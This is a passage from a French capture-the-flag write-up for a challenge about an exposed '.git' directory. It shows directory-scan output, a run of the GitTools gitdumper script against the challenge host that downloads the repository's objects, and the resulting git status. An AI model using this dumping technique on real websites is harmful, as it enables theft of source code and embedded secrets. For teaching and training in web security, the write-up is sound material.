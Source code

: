 ```
[21:55:29] 200 -  353B  - /.git/logs/refs/heads/master
[21:55:29] 301 -  197B  - /.git/refs/heads  ->  /.git/refs/heads/
[21:55:29] 200 -   41B  - /.git/refs/heads/master
```
Finalement, nous n'avons pas accès au répertoire '.git' mais il est possible d'avoir accès à tous les fichiers contenu dans ce répertoire.  
Le script n'a pas trouvé tous les fichiers, car il manque le répertoire 'objects' caractéristiques de la structure du répertoire '.git'.  
Pour extraire l'ensemble des fichiers contenu dans le répertoire '.git', j'ai utiliser l'outil `gitdumper`:
```
$ bash gitdumper.sh https://gitgood.2020.chall.actf.co/.git/ clone
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating tmp/.git/
[+] Downloaded: HEAD
[+] Downloaded: objects/info/packs
[+] Downloaded: **description**
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[+] Downloaded: info/refs
[+] Downloaded: info/exclude
[+] Downloaded: objects/e9/75d678f209da09fff763cd297a6ed8dd77bb35
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/6b/3c94c0b90a897f246f0f32dec3f5fd3e40abb5
[+] Downloaded: objects/94/02d143d3d7998247c95597b63598ce941e7bcb
[+] Downloaded: objects/b6/30430d9d393a6b143af2839fd24ac2118dba79
[+] Downloaded: objects/c2/658d7d1b31848c3b71960543cb0368e56cd4c7
[+] Downloaded: objects/63/8887a54973265c428cd51ce6dfd48f196d91c4
[+] Downloaded: objects/49/b319c37dc674bca682cab0f2506473dda6bd9a
[+] Downloaded: objects/78/9fa5caf452f5f6f25bfa9b1c0ab1d593dce1b3
[+] Downloaded: objects/8f/08af35205d0ba80e94b4f4306311039d62e138
[+] Downloaded: objects/24/7c9d491c0d2d6da5e93afcd0681b3edd7ccd70
[+] Downloaded: objects/0f/52598006f9cdb21db2f4c8d44d70535630289b

$ cd clone
$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    .gitignore
	deleted:    index.html
	deleted:    index.js
	deleted:    package-lock.json
	deleted:    package.json
```